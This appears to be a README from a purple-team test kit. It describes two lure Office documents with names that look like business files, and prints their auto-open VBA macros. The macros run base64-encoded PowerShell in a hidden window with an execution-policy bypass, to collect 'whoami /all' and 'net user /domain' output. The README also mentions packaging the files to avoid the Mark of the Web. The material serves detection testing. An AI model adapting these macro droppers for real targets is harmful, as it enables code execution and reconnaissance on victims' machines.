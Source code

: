 # Office Macro enabled Documents

**NOTE:** Other file formats (zip, 7z and img) file have been added as archives in order to prevent MOTW being applied to the original document files.

## performance_eval_2025.doc

The following macro will execute on document open:

**Encoded Command:**
```powershell
mkdir C:\temp;whoami /all > C:\temp\word_macro_output.txt
```

**VBA Macro:**
```VBA
Private Sub format_document()
MsgBox "Purple Team Test - check 'C:\temp\word_macro_output.txt'", vbOKOnly, "Ok"
  a = Shell("C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -exec bypass -enc bQBrAGQAaQByACAAQwA6AFwAdABlAG0AcAA7AHcAaABvAGEAbQBpACAALwBhAGwAbAAgAD4AIABDADoAXAB0AGUAbQBwAFwAdwBvAHIAZABfAG0AYQBjAHIAbwBfAG8AdQB0AHAAdQB0AC4AdAB4AHQA", vbHide)

End Sub
Sub Document_Open()
    format_document
End Sub
Sub AutoOpen()
    format_document
End Sub

```

## budget_surplus_fy25.xls

The following macro will execute on workbook open:

**Encoded Command:**
```powershell
mkdir C:\temp;cmd.exe /c "net user /domain > C:\temp\excel_macro_output.txt"
```

**VBA Macro:**
```VBA
Sub format_workbook()
MsgBox "Purple Team Test - check: 'C:\temp\excel_macro_output.txt'", vbOKOnly, "Ok"
  a = Shell("C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -exec bypass -enc bQBrAGQAaQByACAAQwA6AFwAdABlAG0AcAA7AGMAbQBkAC4AZQB4AGUAIAAvAGMAIAAiAG4AZQB0ACAAdQBzAGUAcgAgAC8AZABvAG0AYQBpAG4AIAA+ACAAQwA6AFwAdABlAG0AcABcAGUAeABjAGUAbABfAG0AYQBjAHIAbwBfAG8AdQB0AHAAdQB0AC4AdAB4AHQAIgA=", vbHide)

End Sub
Private Sub Workbook_Open()
    format_workbook
End Sub
Private Sub AutoOpen()
    format_workbook
End Sub
```
